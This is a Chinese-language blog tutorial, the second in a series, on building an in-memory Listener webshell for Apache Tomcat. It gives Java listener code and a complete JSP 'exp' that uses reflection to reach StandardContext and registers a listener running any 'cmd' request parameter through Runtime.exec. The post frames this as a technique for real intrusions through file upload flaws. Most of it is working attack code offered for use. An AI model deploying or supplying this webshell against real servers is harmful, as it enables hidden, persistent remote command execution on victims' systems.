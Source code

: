 ```yaml
---
layout: post
date: 2025-5-15
title: "Listener内存马-2"
author: "XinYiSleep"
category: Java
---
```

<h1 id="GT0vV">一.基础信息</h1>

```
在上一篇文章中我们已经简单的了解了一下Listener了，那么首先能考虑被作为内存马的是ServletRequestListener：对请求对象的初始化和销毁进行监听
说人话就是每次请求的时候就是初始化，请求结束销毁，这一技术主要在Servlet3.0之后，并且呢tomcat7.x及以上才可以用，因为tomcat7.x在支持Servlet3.0，
为了方便调试我们添加包(代码一)，原因很简单你不加根本进不去(图一)。
懂点的可以先看一下图二。
```

```java
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.100</version>
</dependency>
```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/1.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/0.png)

<h1 id="Djyi0">二.动态注册</h1>

```
我们得知请求任意url的时候会被执行到监听器，首先这个监听器在写入之后需要重启才能生效,那么在实战中
我们不可能去修改代码更不可能重启别人服务，那么就需要动态注册，大致就是分析一下正常的Listener是怎么的一个过程，废话不多说，
首先我们需要创建一个恶意的Listener(代码一),在其中打上断点(图一)，走进StandardContext类中fireRequestInitEvent方法(图二)，
接着一直往上跟看看从哪里获取到了ListenerWeblshell的实例，在第一行getApplicationEventListeners方法中获取到了，那么看看是什么(图三,图四)，
得知他是一个类中的属性的话，那么需要修改他先看看有那么有Setter,发现是有的(图五)，到这里其实就已经结束了，现在我们的目的就是需要通过这个Setter进行动态注册打成目的。
```

```java
package com.example.webshell1;
import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Field;

@WebListener
public class ListenerWeblshell implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("销毁");
    }
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        HttpServletRequest servletRequest = (HttpServletRequest)sre.getServletRequest();
        String cmd = servletRequest.getParameter("cmd");
        if (cmd!=null){
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
        
    }
}

```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/2.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/3.5png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/3.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/4.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/5.png)

```
在上面我们得知存在setApplicationEventListeners和addApplicationEventListener都可以修改，
我们先用addApplicationEventListener，现在的问题是如何拿到StandardContext实例，
那我们往上推看看谁调用了StandardContext他是怎么拿到的(图一)，那我们就模拟他就行了问我具体干啥了一切不知道也不需要管他，
(代码一,图二)，那你就要问了，你这是个锤子内存马呀，图二中已经创建一个新的Litsener,你就算添加进去有什么用这不冗余了吗？
而且还需要改java代码你这不是天方夜谭吗？没错下面我们就要想到的攻击面了，如果说存在文件上传的情况下我们是否可以在JSP中进行操作呢？
答案是可以的因为JSP中九大核心内置对象中刚好有request(可以看上一篇文章简单了解一下)，
```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/6.png)

```java
package com.example.webshell1;

import org.apache.catalina.Context;
import org.apache.catalina.connector.Request;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Field;

@WebListener
public class ListenerWeblshell implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("销毁");
    }
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        //拿到StandardContext实例
        Request Reques = (Request)sre.getServletRequest();
        StandardContext context = (StandardContext)Reques.getContext();
        //修改添加我们的Listener
        TestListener testListener = new TestListener();
        context.addApplicationEventListener(testListener);
    }
}
```
![](https://xinyisleep.github.io/img/2025/Webshell/Listener/7.png)

<h1 id="cZYlj">三：完整Listener内存马</h1>

```
首先获取org.apache.catalina.connector.Request的实例，在JSP中request是org.apache.catalina.connector.RequestFacade他实现了HttpServletRequest(图一,图二)，
但是存在一个request属性刚好类型是Request(图三)，通过反射获取request，之后取出org.apache.coyote.Request，
强制转换成StandardContext对象，执行addApplicationListener，完整exp(代码一),访问这个JSP文件之后会添加一个新的Listener到ApplicationEventListener，
重新请求的时候getApplicationEventListeners就已经有我们的Listener了，到这里还是有点绕的可以手动测试看看，要是这都没理解那我也无能为力了，
这已经是手把手了，好了其实还是蛮简单的，下期见(冲冲冲)。

```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/8.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/8.5.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/9.png)

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>


<%!
    public class TestListener implements ServletRequestListener {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
        }
        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest servletRequest = (HttpServletRequest)sre.getServletRequest();
            String cmd = servletRequest.getParameter("cmd");
            if (cmd!=null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    throw new RuntimeException(e);
                }
            }
        }
    }
%>

<%
    //获取org.apache.coyote.Request实例
    //request实际上是org.apache.catalina.connector.RequestFacade他实现了HttpServletRequest
    Field request1 = request.getClass().getDeclaredField("request");
    request1.setAccessible(true);
    //上面获取了request属性取出org.apache.coyote.Request
    Request o = (Request)request1.get(request);
    //强制转换成StandardContext对象，执行addApplicationListener
    StandardContext context = (StandardContext)o.getContext();
    context.addApplicationEventListener(new TestListener());
%>

```



